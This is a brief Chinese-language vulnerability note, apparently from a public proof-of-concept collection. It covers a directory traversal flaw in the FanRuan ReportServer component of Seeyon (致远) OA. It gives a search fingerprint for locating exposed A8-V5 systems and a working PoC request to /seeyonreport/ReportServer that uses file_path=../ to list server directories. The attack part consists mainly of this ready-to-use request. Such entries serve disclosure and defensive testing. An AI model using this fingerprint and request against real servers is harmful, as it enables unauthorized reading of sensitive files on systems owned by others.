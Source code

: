 # 致远OA 帆软组件 ReportServer 目录遍历漏洞

## 漏洞描述

致远OA 帆软组件 ReportServer接口存在目录遍历漏洞，攻击者通过漏洞可以获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>致远OA 帆软组件 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="致远A8-V5协同管理软件 V6.1sp1"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1658380405460-276c39d7-9ccc-4136-b334-e6bf2353447d.png)

验证POC

```php
/seeyonreport/ReportServer?op=fs_remote_design&cmd=design_list_file&file_path=../&currentUserName=admin&currentUserId=1&isWebReport=true
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1658380435375-7c6730da-7b22-4892-806c-f11da57d6e60.png)